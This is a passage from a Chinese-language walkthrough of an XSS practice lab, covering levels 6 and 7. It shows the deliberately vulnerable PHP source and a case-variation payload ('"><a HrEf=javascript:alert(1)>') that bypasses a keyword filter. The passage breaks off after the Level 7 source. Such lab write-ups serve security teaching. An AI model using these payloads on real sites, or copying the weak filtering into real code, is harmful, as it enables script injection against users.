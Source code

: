 ```php
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center><img src=level6.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str6)."</h3>";
?>
</body>
</html>
```

### 注入过程

老规矩注入正常JavaScript，跟第5关相似，我们在尝试注入第5关的payload，查看源代码。

[![img](https://img.cccb.rr.nu/path/202504101640317.png)](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131605216.png)

把href属性给过滤了。查看了一下源码，src、data、on都被过滤了。但是大小写没有过滤，可通过大小写进行绕过

payload：



```xml
"><a HrEf=javascript:alert(1)>
```

## Level7 (双写绕过)

### 源码



```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level8.php?keyword=nice try!"; 
}
</script>
<title>欢迎来到level7</title>
</head>
<body>
<h1 align=center>欢迎来到level7</h1>
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```